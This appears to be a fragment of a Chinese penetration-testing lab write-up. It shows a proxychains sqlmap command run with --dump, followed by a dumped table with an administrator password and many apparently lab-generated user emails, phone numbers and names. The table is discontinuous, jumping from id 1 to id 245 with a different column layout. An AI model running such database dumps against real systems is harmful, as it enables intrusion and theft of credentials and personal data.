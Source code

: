看起来就很蠢，直接 sqlmap 一把梭

```bash
proxychains sqlmap -r 1.txt --dump
+----+------------------+---------------+
| id | password         | username      |
+----+------------------+---------------+
| 1  | bo2y8kAL3HnXUiQo | administrator |
+----+------------------+---------------+
|245 | chenyan@xiaorang.lab       | 18281528743 | CHEN YAN        |
| 246 | tanggui@xiaorang.lab       | 18060615547 | TANG GUI        |
| 247 | buning@xiaorang.lab        | 13046481392 | BU NING         |
| 248 | beishu@xiaorang.lab        | 18268508400 | BEI SHU         |
| 249 | shushi@xiaorang.lab        | 17770383196 | SHU SHI         |
| 250 | fuyi@xiaorang.lab          | 18902082658 | FU YI           |
| 251 | pangcheng@xiaorang.lab     | 18823789530 | PANG CHENG      |
| 252 | tonghao@xiaorang.lab       | 13370873526 | TONG HAO        |
| 253 | jiaoshan@xiaorang.lab      | 15375905173 | JIAO SHAN       |
| 254 | dulun@xiaorang.lab         | 13352331157 | DU LUN          |
| 255 | kejuan@xiaorang.lab        | 13222550481 | KE JUAN         |
| 256 | gexin@xiaorang.lab         | 18181553086 | GE XIN          |
| 257 | lugu@xiaorang.lab          | 18793883130 | LU GU           |
| 258 | guzaicheng@xiaorang.lab    | 15309377043 | GU ZAI CHENG    |
| 259 | feicai@xiaorang.lab        | 13077435367 | FEI CAI         |
| 260 | ranqun@xiaorang.lab        | 18239164662 | RAN QUN         |
| 261 | zhouyi@xiaorang.lab        | 13169264671 | ZHOU YI         |
| 262 | shishu@xiaorang.lab        | 18592890189 | SHI SHU         |
| 263 | yanyun@xiaorang.lab        | 15071085768 | YAN YUN         |
| 264 | chengqiu@xiaorang.lab      | 13370162980 | CHENG QIU       |
| 265 | louyou@xiaorang.lab        | 13593582379 | LOU YOU         |
| 266 | maqun@xiaorang.lab         | 15235945624 | MA QUN          |
| 267 | wenbiao@xiaorang.lab       | 13620643639 | WEN BIAO        |
| 268 | weishengshan@xiaorang.lab  | 18670502260 | WEI SHENG SHAN  |
| 269 | zhangxin@xiaorang.lab      | 15763185760 | ZHANG XIN       |
| 270 | chuyuan@xiaorang.lab       | 18420545268 | CHU YUAN        |
| 271 | wenliang@xiaorang.lab      | 13601678032 | WEN LIANG       |
| 272 | yulvxue@xiaorang.lab       | 18304374901 | YU LV XUE       |
| 273 | luyue@xiaorang.lab         | 18299785575 | LU YUE          |
| 274 | ganjian@xiaorang.lab       | 18906111021 | GAN JIAN        |
| 275 | pangzhen@xiaorang.lab      | 13479328562 | PANG ZHEN       |
| 276 | guohong@xiaorang.lab       | 18510220597 | GUO HONG        |
| 277 | lezhong@xiaorang.lab       | 15320909285 | LE ZHONG        |
| 278 | sheweiyue@xiaorang.lab     | 13736399596 | SHE WEI YUE     |
| 279 | dujian@xiaorang.lab        | 15058892639 | DU JIAN         |
| 280 | lidongjin@xiaorang.lab     | 18447207007 | LI DONG JIN     |
| 281 | hongqun@xiaorang.lab       | 15858462251 | HONG QUN        |
| 282 | yexing@xiaorang.lab        | 13719043564 | YE XING         |
| 283 | maoda@xiaorang.lab         | 13878840690 | MAO DA          |
| 284 | qiaomei@xiaorang.lab       | 13053207462 | QIAO MEI        |
| 285 | nongzhen@xiaorang.lab      | 15227699960 | NONG ZHEN       |
| 286 | dongshu@xiaorang.lab       | 15695562947 | DONG SHU        |
| 287 | zhuzhu@xiaorang.lab        | 13070163385 | ZHU ZHU         |
| 288 | jiyun@xiaorang.lab         | 13987332999 | JI YUN          |
| 289 | qiguanrou@xiaorang.lab     | 15605983582 | QI GUAN ROU     |
| 290 | yixue@xiaorang.lab         | 18451603140 | YI XUE          |
| 291 | chujun@xiaorang.lab        | 15854942459 | CHU JUN         |
| 292 | shenshan@xiaorang.lab      | 17712052191 | SHEN SHAN       |
| 293 | lefen@xiaorang.lab         | 13271196544 | LE FEN          |
| 294 | yubo@xiaorang.lab          | 13462202742 | YU BO           |
| 295 | helianrui@xiaorang.lab     | 15383000907 | HE LIAN RUI     |
| 296 | xuanqun@xiaorang.lab       | 18843916267 | XUAN QUN        |
| 297 | shangjun@xiaorang.lab      | 15162486698 | SHANG JUN       |
| 298 | huguang@xiaorang.lab       | 18100586324 | HU GUANG        |
| 299 | wansifu@xiaorang.lab       | 18494761349 | WAN SI FU       |
```